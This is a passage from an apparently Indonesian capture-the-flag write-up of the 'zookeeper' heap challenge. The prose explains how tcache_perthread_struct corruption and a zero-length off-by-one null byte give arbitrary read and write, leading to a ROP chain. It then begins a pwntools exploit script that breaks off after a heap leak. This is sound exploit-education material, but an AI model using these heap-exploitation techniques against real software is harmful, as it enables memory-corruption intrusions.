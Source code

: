 ### Melanjutkan Arbitrary Read
Disebabkan kita berhasil melakukan free pada tcache_perthread_struct, kita bisa mendapatkan arbitary read. Untuk melakukan itu, kita perlu menggunakan 2 bug lainnya yang saya suruh catat.

> Ini titik yang bagus untuk berhenti sebentar jika ingin cari tau secara mandiri!

<br>

Karena kita dapat mengalokasi chunk dengan ukuran berapapun, apa yang terjadi jika kita alokasi chunk dengan ukuran 0? Ya, kita bakal mendapatkan chunk dengan ukuran 0x20. Karena ukuran yang kita input adalah 0, null byte yang ditulis oleh program bakal tertulis dimana? Yak, pada posisi -1! Hal ini berarti jika terdapat sebuah nilai yang tersimpan sebelum kita menulis ke chunk tersebut, kita dapat membaca nilai tersebut.

Bagaimana ini bisa digunakan sebagai arbitary read? Gampang, dengan menulis ke tcache_perthread_struct, kita dapat mengubah nilai head dari freelist tcache pertama (yang menangani chunk dengan ukuran 0x20), dan menggunakan trik diatas, kita dapat membaca nilai dimanapun!

Menggunakan ini, mendapatkan alamat libc dan alamat stack seharusnya gampang. Alamat stack terdapat pada environ (di libc), dan alamat libc terdapat pada sebuah large bin chunk yang sudah di free.

### Arbitrary Write
> Ini titik yang bagus untuk berhenti sebentar jika ingin cari tau secara mandiri!

<br>

Ya, harusnya sudah jelas sih cara untuk mendapatkan arbitary write. Seperti arbitrary read, kita dapat mengubah nilai dari head dari  freelist tcahce manapun, jadi tcache bin dengan ukuran 0x300 pun dapat digunakan untuk menulis kemana saja. Seperti yang sudah saya katakan sebelumnya, saya menulis ke stack untuk membuat sebuah ropchain. Menggunakan ropchain, saya membuka "flag.txt", membaca darinya, dan mencetak isi kontennya. GG!

### Exploit lengkap
Ini exploit lengkap :D

```py
from pwn import *
import codecs

libc = ELF('./libc-2.31.so')
seccomp = ELF('./libseccomp.so.2.5.1')

# p = process('./zookeeper', env={"LD_PRELOAD": libc.path + " " + seccomp.path})
p = remote("zookeeper.chal.imaginaryctf.org", 1337)

def add(idx, size, content, usecontent=True):
    p.sendlineafter("(v)iew a lion\n", "f")
    p.sendlineafter("idx:", str(idx))
    p.sendlineafter("len:", str(size))
    if(usecontent):
        p.sendlineafter("content:", content)

def lose(idx):
    p.sendlineafter("(v)iew a lion\n", "l")
    p.sendlineafter("idx:", str(idx))

def view(idx):
    p.sendlineafter("(v)iew a lion\n", "v")
    p.sendlineafter("idx:", str(idx))

# Get heap leak
add(0, 0x10, "asdf")
add(0, 0x0, "asdf", usecontent=False)
view(0)
p.recvline()
heap_leak = int(codecs.encode(p.recvline().strip()[::-1], 'hex'), 16)
```